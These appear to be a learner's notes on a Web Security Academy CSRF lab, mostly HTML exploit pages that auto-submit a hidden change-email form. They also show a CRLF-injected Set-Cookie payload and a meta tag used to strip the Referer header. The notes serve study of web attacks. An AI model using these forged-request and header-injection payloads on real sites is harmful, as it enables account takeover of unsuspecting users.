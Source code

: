 This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

#### Note

>The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

---

temp

```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
			<input type="hidden" name="csrf" value="CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU">
		</form>
		<img style="display:none;" src="https://bank.com/email/change/?search=hat%0d%0aSet-Cookie:%20csrfKey=<Attacker_CSRFKey_Cookie>" onerror="document.forms[0].submit()">
	</body>
</html>
```

Analysis:

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: no csrf token

Testing Referer header for CSRF attacks:
1. Remove the Referer header

I need to add in the meatadata for the referer:

```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>

    <!--NOTE: Since the Web Security Academy intoduced a defense in that does not allow iframes from different origins, the iframe needs to be removed.-->
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

![[IMG/Pasted image 20240924092929.png]]

```html
<html>
    <head>
        <meta name="referer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

Works, but doesn't complete the lab.